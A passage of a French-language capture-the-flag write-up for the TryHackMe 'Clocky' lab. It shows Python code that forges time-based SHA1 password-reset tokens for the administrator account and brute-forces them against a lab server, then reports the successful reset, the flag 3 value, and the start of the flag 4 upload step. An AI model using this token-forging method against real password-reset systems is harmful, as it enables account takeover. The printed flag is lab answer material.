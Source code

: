 ```python
        print("Synchronized time:", current_time_str)  

        # Generate and check valid tokens
        valid_tokens = []
        for ms in range(100):
            ms_str = str(ms).zfill(2)  
            token_data = current_time_str + "." + ms_str + " . " + "administrator".upper()
            hashed_token = hashlib.sha1(token_data.encode("utf-8")).hexdigest()
            response = requests.get(base_url + 'password_reset', params={'token': hashed_token})
            if '<h2>Invalid token</h2>' not in response.text:
                print(f'Generated token: {hashed_token}') 
                valid_tokens.append(hashed_token)

        print("Generated tokens:", valid_tokens) 
    else:
        print("Error: Could not parse server time from response.")
else:
    print("Error: Failed to fetch server response.")

```

Nous utilisons `administrator` pour le nom d'utilisateur valide au niveau de `/forgot_password`.

![administrator account reset](/images/THM-Clocky/admin-reset.png)

Après avoir exécuté le script, nous recevons une valeur de token que nous ajoutons à `/password_reset`.

![python script to generate valid token values](/images/THM-Clocky/clocky-py.png)

```
10.10.62.39:8080/password_reset?token=2233b063a0ebf5505e2cf32a7fa79937d9b561ed
```

La valeur de notre token est correcte et nous sommes capables de réinitialiser le mot de passe de l'utilisateur `administrator`.

![password reset success](/images/THM-Clocky/pwd-reset-success.png)

En retournant à `/dashboard`, nous pouvons nous connecter avec `administrator:mot_de_passe_choisi` et nous obtenons le drapeau 3.

```
THM{ee68e42f755f6ebbcd89439432d7b462}
```

![admin dashboard](/images/THM-Clocky/admin-dashboard.png)

---

## Flag 4

Sur le tableau de bord de l'administrateur, nous pouvons soumettre une valeur pour `Location` et télécharger un fichier. Suite à la capture de la requête avec Burp Suite, je peux voir qu'elle utilise le paramètre `location`.
